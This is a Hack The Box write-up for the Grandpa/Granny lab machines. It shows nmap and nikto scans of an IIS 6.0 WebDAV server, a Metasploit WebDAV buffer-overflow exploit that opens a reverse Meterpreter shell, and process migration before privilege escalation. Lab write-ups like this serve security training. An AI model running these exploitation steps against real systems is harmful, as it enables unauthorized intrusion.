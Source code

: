 ```yaml
---
layout: post
title: Grandpa/Granny (HTB)
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.14/15 

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -A 10.10.10.15</p>

<p>Starting Nmap 7.50 ( https://nmap.org ) at 2018-02-22 18:56 EST
<br>Nmap scan report for 10.10.10.15
<br>Host is up (0.17s latency).
<br>Not shown: 999 filtered ports
<br>PORT   STATE SERVICE VERSION
<br><font color="BB69EC">80/tcp</font> open  http    <font color="53E100">Microsoft IIS httpd 6.0</font>
<br>| http-methods: 
<br>|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
<br>|_http-server-header: Microsoft-IIS/6.0
<br>|_http-title: Under Construction
<br>| <font color="ffff00">http-webdav-scan</font>: 
<br>|   Server Type: Microsoft-IIS/6.0
<br>|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
<br>|   <font color="ffff00">WebDAV type</font>: Unkown
<br>|   Server Date: Thu, 22 Feb 2018 23:53:57 GMT
<br>|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Device type: general purpose
<br>Running (JUST GUESSING): Microsoft Windows 2003|XP|2008 (92%)
<br>OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_xp::sp2 <br>cpe:/o:microsoft:windows_server_2008::sp2
<br>Aggressive OS guesses: Microsoft Windows Server 2003 SP1 - SP2 (92%), Microsoft Windows Server 2003 SP2 (91%), Microsoft Windows XP <br>SP2 or Windows Server 2003 SP2 (91%), Microsoft Windows Server 2003 R2 SP2 (88%), Microsoft Windows Server 2003 SP1 or R2 (88%), <br>Microsoft Windows 2003 SP2 (86%), Microsoft Windows Server 2003 SP1 or SP2 (86%), Microsoft Windows XP SP2 (86%), Microsoft Windows <br>2003 R2 (86%), Microsoft Windows Server 2003 (86%)
<br>No exact OS matches for host (test conditions non-ideal).
<br>Network Distance: 2 hops
<br>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows</p>

<p>TRACEROUTE (using port 80/tcp)
<br>HOP RTT       ADDRESS
<br>1   170.45 ms 10.10.14.1
<br>2   170.49 ms 10.10.10.15</p>

<p>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 38.06 seconds
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>

<br>Only port open is open and the web server is IIS httpd 6.0 and webdav is also available in which put method is allowed, and the webpage is also not available.

**Nikto**
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nikto -h 10.10.10.15
<br>- Nikto v2.1.6
<br>---------------------------------------------------------------------------
<br>+ Target IP:          10.10.10.15
<br>+ Target Hostname:    10.10.10.15
<br>+ Target Port:        80
<br>+ Start Time:         2018-02-22 19:01:01 (GMT-5)
<br>---------------------------------------------------------------------------
<br>+ Server: Microsoft-IIS/6.0
<br>+ Retrieved microsoftofficewebserver header: 5.0_Pub
<br>+ Retrieved x-powered-by header: ASP.NET
<br>+ The anti-clickjacking X-Frame-Options header is not present.
<br>+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
<br>+ Uncommon header 'microsoftofficewebserver' found, with contents: 5.0_Pub
<br>+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
<br>+ Retrieved x-aspnet-version header: 1.1.4322
<br>+ No CGI Directories found (use '-C all' to force check all possible dirs)
<br>+ OSVDB-397: HTTP method <font color="ffff00">'PUT'</font> allows clients to save files on the web server.
<br>+ OSVDB-5646: HTTP method 'DELETE' allows clients to delete files on the web server.
<br>+ Retrieved dasl header: <font color="ffff00"> <DAV:sql> </font>
<br>+ Retrieved dav header: 1, 2
<br>+ Retrieved ms-author-via header: MS-FP/4.0,DAV
<br>+ Uncommon header 'ms-author-via' found, with contents: MS-FP/4.0,DAV
<br>+ Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH 
<br>+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
<br>+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
<br>+ OSVDB-5647: HTTP method ('Allow' Header): 'MOVE' may allow clients to change file locations on the web server.
<br>+ Public HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH 
<br>+ OSVDB-5646: HTTP method ('Public' Header): 'DELETE' may allow clients to remove files on the web server.
<br>+ OSVDB-397: HTTP method ('Public' Header): 'PUT' method could allow clients to save files on the web server.
<br>+ OSVDB-5647: HTTP method ('Public' Header): 'MOVE' may allow clients to change file locations on the web server.
<br>+ WebDAV enabled (UNLOCK PROPPATCH COPY LOCK PROPFIND MKCOL SEARCH listed as allowed)
<br>+ OSVDB-13431: PROPFIND HTTP verb may show the server's internal IP address: http://granny/_vti_bin/_vti_aut/author.dll
<br>+ OSVDB-396: /_vti_bin/shtml.exe: Attackers may be able to crash FrontPage by requesting a DOS device, like shtml.exe/aux.htm -- a DoS was not attempted.
<br>+ OSVDB-3233: /postinfo.html: Microsoft FrontPage default file found.
<br>+ OSVDB-3233: /_vti_bin/shtml.exe/_vti_rpc: FrontPage may be installed.
<br>+ OSVDB-3233: /_private/: FrontPage directory found.
<br>+ OSVDB-3233: /_vti_bin/: FrontPage directory found.
<br>+ OSVDB-3233: /_vti_inf.html: FrontPage/SharePoint is installed and reveals its version number (check HTML source for more information).
<br>+ OSVDB-3300: /_vti_bin/: shtml.exe/shtml.dll is available remotely. Some versions of the Front Page ISAPI filter are vulnerable to a DOS (not attempted).
<br>+ OSVDB-3500: /_vti_bin/fpcount.exe: Frontpage counter CGI has been found. FP Server version 97 allows remote users to execute arbitrary system commands, though a vulnerability in this version could not be confirmed. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-1999-1376. http://www.securityfocus.com/bid/2252.
<br>+ OSVDB-67: /_vti_bin/shtml.dll/_vti_rpc: The anonymous FrontPage user is revealed through a crafted POST</p>
</div>
</font>

<br>If you google about IIS 6.0 webdav you can find a BOF [exploit](https://www.exploit-db.com/exploits/41738/), and there is a msf module also available for this similar exploit which we are going to use.

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p>msf > use exploit/windows/iis/iis_webdav_scstoragepathfromurl
<br>msf exploit(<font color="red">iis_webdav_scstoragepathfromurl</font>) > show options </p>

<p>Module options (exploit/windows/iis/iis_webdav_scstoragepathfromurl):</p>

<p>&nbsp;&nbsp;&nbsp;Name&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Current&nbsp;Setting&nbsp;&nbsp;Required&nbsp;&nbsp;Description
<br>&nbsp;&nbsp;&nbsp;----&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;---------------&nbsp;&nbsp;--------&nbsp;&nbsp;-----------
<br>&nbsp;&nbsp;&nbsp;MAXPATHLENGTH&nbsp;&nbsp;60&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;yes&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;End of physical path brute force
<br>&nbsp;&nbsp;&nbsp;MINPATHLENGTH&nbsp;&nbsp;3&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;yes&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Start of physical path brute force
<br>&nbsp;&nbsp;&nbsp;Proxies&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;no&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;A proxy chain of format type:host:port[,type:host:port][...]
<br>&nbsp;&nbsp;&nbsp;RHOST&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;yes&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;The target address
<br>&nbsp;&nbsp;&nbsp;RPORT&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;80&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;yes&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;The target port (TCP)
<br>&nbsp;&nbsp;&nbsp;SSL&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;false&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;no&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Negotiate SSL/TLS for outgoing connections
<br>&nbsp;&nbsp;&nbsp;TARGETURI&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;/&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;yes&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Path of IIS 6 web application
<br>&nbsp;&nbsp;&nbsp;VHOST&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;no&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;HTTP server virtual host</p>


<p>Exploit target:</p>

<p>&nbsp;&nbsp;&nbsp;Id&nbsp;&nbsp;Name
<br>&nbsp;&nbsp;&nbsp;--&nbsp;&nbsp;----
<br>&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;Microsoft Windows Server 2003 R2 SP2 x86</p>


<p>msf exploit(<font color="red">iis_webdav_scstoragepathfromurl</font>) > set RHOST 10.10.10.15
<br>RHOST => 10.10.10.15
<br>msf exploit(<font color="red">iis_webdav_scstoragepathfromurl</font>) > exploit </p>

<p><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:4444 
<br><font color="RoyalBlue">[*]</font> Sending stage (957487 bytes) to 10.10.10.15
<br><font color="RoyalBlue">[*]</font> Meterpreter session 1 opened (10.10.*.*:4444 -> 10.10.10.15:1031) at 2018-02-22 19:23:56 -0500</p>

<p>meterpreter > getuid
<br><font color="red">[-]</font> stdapi_sys_config_getuid: Operation failed: Access is denied.
<br>meterpreter > sysinfo
<br>Computer&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:&nbsp;GRANNY
<br>OS&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:&nbsp;Windows .NET Server (Build 3790, Service Pack 2).
<br>Architecture&nbsp;&nbsp;&nbsp;&nbsp;:&nbsp;x86
<br>System Language&nbsp;:&nbsp;en_US
<br>Domain&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:&nbsp;HTB
<br>Logged On Users&nbsp;:&nbsp;3
<br>Meterpreter&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:&nbsp;x86/windows
<br>meterpreter > </p>
</div>
</font>

<br>We got the session but our sehll has very low privilege not even a user privilege, So first we need to migrate to a process which have some decent privilege and then try to find an exploit using local exploit suggester to escalate our privilege to gain system or administrator level access.

**Privilege Escalation**

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p>meterpreter > ps</p>

<p>Process List
<br>============</p>

<p>&nbsp;PID&nbsp;&nbsp;&nbsp;PPID&nbsp;&nbsp;Name&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Arch&nbsp;&nbsp;Session&nbsp;&nbsp;User&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Path
<br>&nbsp;---&nbsp;&nbsp;&nbsp;----&nbsp;&nbsp;----&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;----&nbsp;&nbsp;-------&nbsp;&nbsp;----&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;----
<br>&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;[System Process]                                               
<br>&nbsp;4&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;System                                                         
<br>&nbsp;260&nbsp;&nbsp;&nbsp;4&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;smss.exe                                                       
<br>&nbsp;316&nbsp;&nbsp;&nbsp;260&nbsp;&nbsp;&nbsp;csrss.exe                                                      
<br>&nbsp;340&nbsp;&nbsp;&nbsp;260&nbsp;&nbsp;&nbsp;winlogon.exe                                                   
<br>&nbsp;388&nbsp;&nbsp;&nbsp;340&nbsp;&nbsp;&nbsp;services.exe                                                   
<br>&nbsp;400&nbsp;&nbsp;&nbsp;340&nbsp;&nbsp;&nbsp;lsass.exe                                                      
<br>&nbsp;568&nbsp;&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;668&nbsp;&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;704&nbsp;&nbsp;&nbsp;1068&nbsp;&nbsp;cidaemon.exe                                                   
<br>&nbsp;728&nbsp;&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;756&nbsp;&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;792&nbsp;&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;928&nbsp;&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;spoolsv.exe                                                    
<br>&nbsp;952&nbsp;&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;msdtc.exe                                                      
<br>&nbsp;1068&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;cisvc.exe                                                      
<br>&nbsp;1112&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;1160&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;inetinfo.exe                                                   
<br>&nbsp;1208&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;1440&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;1572&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;1668&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;alg.exe                                                        
<br>&nbsp;1772&nbsp;&nbsp;568&nbsp;&nbsp;&nbsp;wmiprvse.exe                                                   
<br>&nbsp;1932&nbsp;&nbsp;568&nbsp;&nbsp;&nbsp;davcdata.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x86&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;NT AUTHORITY\NETWORK SERVICE&nbsp;&nbsp;C:\WINDOWS\system32\inetsrv\davcdata.exe
<br>&nbsp;2092&nbsp;&nbsp;1068&nbsp;&nbsp;cidaemon.exe                                                   
<br>&nbsp;2124&nbsp;&nbsp;1068&nbsp;&nbsp;cidaemon.exe                                                   
<br>&nbsp;2204&nbsp;&nbsp;340&nbsp;&nbsp;&nbsp;logon.scr                                                      
<br>&nbsp;3080&nbsp;&nbsp;1440&nbsp;&nbsp;w3wp.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x86&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;NT AUTHORITY\NETWORK SERVICE&nbsp;&nbsp;c:\windows\system32\inetsrv\w3wp.exe
<br>&nbsp;3172&nbsp;&nbsp;3080&nbsp;&nbsp;rundll32.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x86&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;C:\WINDOWS\system32\rundll32.exe</p>

<p>meterpreter > migrate 1932
<br><font color="RoyalBlue">[*]</font> Migrating from 3172 to 1932...
<br><font color="RoyalBlue">[*]</font> Migration completed successfully.
<br>meterpreter > getuid 
<br>Server username: NT AUTHORITY\NETWORK SERVICE
<br>meterpreter > </p>
</div>
</font>

<br>And we successfully migrated to NETWORK SERVICE and now we can run the local exploit suggester.





